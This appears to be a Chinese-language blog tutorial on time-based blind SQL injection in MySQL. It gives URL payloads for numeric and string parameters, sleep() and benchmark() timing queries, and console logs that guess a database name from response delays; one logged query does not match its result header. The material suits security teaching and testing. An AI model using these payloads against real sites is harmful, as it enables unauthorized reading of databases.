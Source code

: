 +++
title = "SQL注入之基于时间的注入"
topics = ["Pentest"]
tags = ["injection"]
description = "基于时间的SQL注入"
date = "2016-06-24T10:10:27+08:00"
draft = false
+++

### 0x00 特点
```
当页面存在注入，但是没有显示位且不管怎么测试返回页面都没有变化，此时可以使用基于时间的盲注进行注入。
其实只要存在SQL注入就可以使用基于时间的盲注，利用范围比较广泛，但是可能受到网络带宽等因素的影响。
```

### 0x01 利用方式
```
整型注入的话可以直接: ?id=if(1=1,sleep(2),1)
字符型的话需要闭合: ?id=2' and if(1=1,sleep(2),1) and '1
```

### 0x02 相关函数
* if(条件, 值1, 值2)  
当条件为真时返回值1，条件为假时返回值2

* sleep()  
sleep()睡眠两秒

* benchmark(count, expr)  
benchmark是用于测试函数性能的，它是将表达式expr执行count次，执行次数越多耗费时间越久

### 0x03 基于时间的注入payload
```
mysql> select if((select database()) like "rte%",sleep(2),666);
+---------------------------------------------------+
| if((select database()) like "rte%",sleep(2),666) |
+---------------------------------------------------+
|                                                 0 |
+---------------------------------------------------+
1 row in set (2.00 sec)

mysql> select if((select database())="rteaaa",sleep(2),666);
+-----------------------------------------------+
| if((select database())="rtest1",sleep(2),666) |
+-----------------------------------------------+
|                                           666 |
+-----------------------------------------------+
1 row in set (0.00 sec)

mysql> select if((select database())="rtest",sleep(2),666);
+----------------------------------------------+
| if((select database())="rtest",sleep(2),666) |
+----------------------------------------------+
|                                            0 |
+----------------------------------------------+
1 row in set (2.00 sec)
```
```
mysql> select id,name,title from msg where id=if(1=1,benchmark(10000000,md5(11)),1);
Empty set (2.32 sec)

mysql> select id,name,title from msg where id=if(1=2,benchmark(10000000,md5(11)),1);
+----+-------+-------+
| id | name  | title |
+----+-------+-------+
|  1 | reber | first |
+----+-------+-------+
1 row in set (0.00 sec)
```

### 0x04 简单注入

1. 判断闭合字符(and 1=1／and 1=2)
![得到闭合字符](/img/post/sqli9-get-closed-character-1.png)
![得到闭合字符](/img/post/sqli9-get-closed-character-2.png)

2. 得到数据库名字
![得到数据库名字](/img/post/sqli9-get-database.png)

